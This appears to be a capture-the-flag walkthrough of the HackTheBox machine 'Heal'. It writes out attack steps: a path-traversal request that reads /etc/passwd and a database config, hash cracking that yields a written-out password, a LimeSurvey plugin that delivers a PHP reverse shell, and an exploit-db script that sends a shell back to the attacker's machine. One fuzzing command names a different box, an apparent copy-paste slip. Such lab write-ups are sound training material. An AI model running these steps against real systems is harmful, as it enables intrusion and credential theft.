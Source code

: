 **NOTES:**

VPN 10.10.11.46

1.  Add **heal.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  RUN: **Nmap -sV -Pn heal.htb**

Ports found: 22, 80

![](images/media/image1.png)

3.  **SUBDOMAIN-FUZZING**

RUN: **ffuf -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
http://monitorsthree.htb -H \"Host:FUZZ.monitorsthree.htb\" -ac**

![](images/media/image2.png)

4.  Add **api.heal.htb** to **/etc/hosts** file

![](images/media/image3.png)

5.  Open in Browser: heal.htb

- Register a USER

- After that, check the survey button, hover over TAKE THE SURVEY (There
  is a hidden URL)

![](images/media/image4.png)

![](images/media/image5.png)

6.  Add to **take-survey.heal.htb** to **/etc/hosts** file

7.  Open the hidden page

- Username **ralph** found

![](images/media/image6.png)

8.  Check hidden page. RUN: **dirsearch -u
    take-survey.heal.htb/index.php -t 50**

**Result**

![](images/media/image7.png)

**Opened**

![](images/media/image8.png)

9.  Go back to heal.htb/resume and login with your previously created
    account

10. Open Burpsuite and intercept the proxy

- Page loaded with INTERCEPT ON

![](images/media/image9.png)

- Result: 1 time forwarded. Send to Repeater

![](images/media/image10.png)

- Added Path traversal

**GET /download?filename=../../../../../etc/passwd HTTP/1.1**

![](images/media/image11.png)

- Search for HOME to find Users

![](images/media/image12.png)

Since we found that the website RUBY ON RAILS (api.heal.htb) used it, we
searched and got it's config file address

- Mod 1^st^ line: **GET /download?filename=../../config/database.yml
  HTTP/1.1**

- **Click Send**

![](images/media/image13.png)

Download sqlite3 file

![](images/media/image14.png)

11. Crack PASSWORD HASH

- Create a txt file with the HASH inside

![](images/media/image15.png)

- RUN: **john test.txt \--wordlist=/usr/share/wordlists/rockyou.txt**

![](images/media/image16.png)

- Login via SSH not possible

- Login with found credentials, **USER:** ralph **PASSWORD:** 147258369
  on

[**http://take-survey.heal.htb/index.php/admin/home.php**](http://take-survey.heal.htb/index.php/admin/home.php)

![](images/media/image17.png)

Website Verison, see below.

![](images/media/image18.png)

12. **LimeSurvey-RCE** (Find a script on Github)

<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>

![](images/media/image19.png)

- Download **config.xml** and **php-rev.php** in Kali VM

- Add **version 6.0** to **config.xml INFO: otherwise it won't work**

![](images/media/image20.png)

- Check your **Kali machine's IP-ADDRESS** (COMMAND: ifconfig)

![](images/media/image21.png)

- Put this IP in the **php-rev.php** script

**Result:**

![](images/media/image22.png)

- ZIP both files (config.xml and php-rev.php)

INFO: Open new Terminal in same directory as both files are located!

RUN: **zip zipname config.xml php-rev.php**

![](images/media/image23.png)

13. Upload zipname.zip + activate plugin

![](images/media/image24.png)

Click 3^rd^ step and select the file **zipname.zip**

![](images/media/image25.png)

Push INSTALL

![](images/media/image26.png)

![](images/media/image27.png)

Activate it

![](images/media/image28.png)

Activated

![](images/media/image29.png)

14. Start listener on Kali VM

RUN: **nc -lvnp 100**

![](images/media/image30.png)

15. To bounce shell, open this URL in Browser

**http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**

**SUCCEEDED**

![](images/media/image31.png)

16. Change directory to /var/www/limesurvey/application/config

- RUN: cat config.php

**USER + PASSWORD FOUND**

This **PASSWORD** can be used with **USER= ron (SSH login works)**

![](images/media/image32.png)

**INFO:** There is only 1 ralph user in the table, his password is the
same as the hash above = 147258369

**There is nothing that can be used in the database**

17. 1^st^ FLAG: Cat user.txt

![](images/media/image33.png)

**[PRIVILEGE ESCALATION]{.underline}**

1.  Transfer Linpeas.sh with SCP-COMMAND to SERVER and let it run.

2.  Start linpeas with: **./linpeas.sh**

![](images/media/image34.png)

3.  Port forwarding: RUN: **ssh -L 8500:127.0.0.1:8500 <ron@heal.htb>**

> ![](images/media/image35.png)

4.  Open website **http://127.0.0.1:8500**, check source code

**-Source code 1.19.2 found**

> ![](images/media/image36.png)

5.  Look for vulnerability <https://www.exploit-db.com/exploits/51117>

> Create exploit.py and put the script in

6.  Set NC listener to get bounce shell

**On Kali machine**:

RUN: **nc -lvnp 100**

> ![](images/media/image37.png)

7.  Send request to listener (to Kali VM)

> RUN (on Kali VM): **python exploit.py 127.0.0.1 8500 Kali-IP 100 0**
>
> ![](images/media/image38.png)

8.  Connection established. Found Root.txt

![](images/media/image39.png)
